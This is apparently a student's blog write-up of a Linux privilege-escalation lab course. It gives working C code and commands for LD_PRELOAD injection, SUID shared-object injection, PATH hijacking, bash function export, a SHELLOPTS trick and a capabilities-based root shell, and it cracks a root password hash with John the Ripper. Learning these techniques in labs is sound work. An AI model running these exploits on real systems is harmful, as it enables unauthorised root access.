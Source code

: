 ```yaml
---
layout: post
title:  "TCM: Linux Priviledge Escalation"
date:   2024-02-04 13:50:01 -0600
categories: TCM
image: /assets/img/linux-privescalation.png
---
```

# Sudo & SUID

Following the course, it starts to get more difficult, when going through the Sudo in 
## Task 8 Sudo (Abusing Intended Functionality)

Shell escaping was fairly straight forward except he didnt explain the multiple lines.
When you have something from gtfobins
```
TERM= sudo more /etc/profile
!/bin/sh
```
it means type the lines 1 at a time, so the second line would be typed after your run the 1st one

## Task 9 Sudo (LD_PRELOAD)
I didn't like this as you had to understand john the ripper, but luckily I was halfway thru the [John the Ripper](
https://tryhackme.com/room/johntheripper0) room so that help get the syntax correct, and look at that wordlist.  Where is that?

```
Your hash.txt file should look like this:
root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::


john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=sha512crypt
```
I added the password in the rockyou.txt file so I can make this run, but the format was missing

## Task 10
Here's where the REAL learning begins.  He is using the LD_PRELOAD to preload a c file 

Linux VM

1. In command prompt type: sudo -l
2. From the output, notice that the LD_PRELOAD environment variable is intact.

1. Open a text editor and type:

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}

2. Save the file as x.c
3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
5. In command prompt type: id

I really enjoyed this one and had to practice several times before understanding what I'm doing.

## Task 11 SUID (Shared Object Injection)
I would actually STOP here and make sure you understand what he's doing in Task 10.  

Its very similar except he's running suid-so

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command line type:
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"
4. From the output, notice that a .so file is missing from a writable directory.

Linux VM

5. In command prompt type: mkdir /home/user/.config
6. In command prompt type: cd /home/user/.config
7. Open a text editor and type:

#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}

8. Save the file as libcalc.c
9. In command prompt type:
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
10. In command prompt type: /usr/local/bin/suid-so
11. In command prompt type: id

## Task 12 SUID (Symlinks)

This uses symlink which I'm not too experienced with, but he's using that link to execute in the logs

Linux VM – Terminal 1

1. For this exploit, it is required that the user be www-data. To simulate this escalate to root by typing: su root
2. The root password is password123
3. Once escalated to root, in command prompt type: su -l www-data
4. In command prompt type: /home/user/tools/nginx/nginxed-root.sh /var/log/nginx/error.log
5. At this stage, the system waits for logrotate to execute. In order to speed up the process, this will be simulated by connecting to the Linux VM via a different terminal.

Linux VM – Terminal 2

1. Once logged in, type: su root
2. The root password is password123
3. As root, type the following: invoke-rc.d nginx rotate >/dev/null 2>&1
4. Switch back to the previous terminal.

Linux VM – Terminal 1

1. From the output, notice that the exploit continued its execution.
2. In command prompt type: id

Probably have to re-watch this video

## Task 13 SUID (Environment Variables #1)

### Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env
4. From the output, notice the functions used by the binary.

### Exploitation

Linux VM

1. In command prompt type:
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
2. In command prompt type: gcc /tmp/service.c -o /tmp/service
3. In command prompt type: export PATH=/tmp:$PATH
4. In command prompt type: /usr/local/bin/suid-env
5. In command prompt type: id

## Task 14 SUID (Environment Variables #2)

### Detection

Linux VM

1. In command prompt type: find / -type f -perm -04000 -ls 2>/dev/null
2. From the output, make note of all the SUID binaries.
3. In command prompt type: strings /usr/local/bin/suid-env2
4. From the output, notice the functions used by the binary.

### Exploitation Method #1

Linux VM

1. In command prompt type:
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
2. In command prompt type:
export -f /usr/sbin/service
3. In command prompt type: /usr/local/bin/suid-env2

### Exploitation Method #2

Linux VM

1. In command prompt type:
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```
## Task 15 Capabilities

### Detection

Linux VM

1. In command prompt type: getcap -r / 2>/dev/null
2. From the output, notice the value of the “cap_setuid” capability.

Exploitation

### Linux VM

1. In command prompt type:
```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```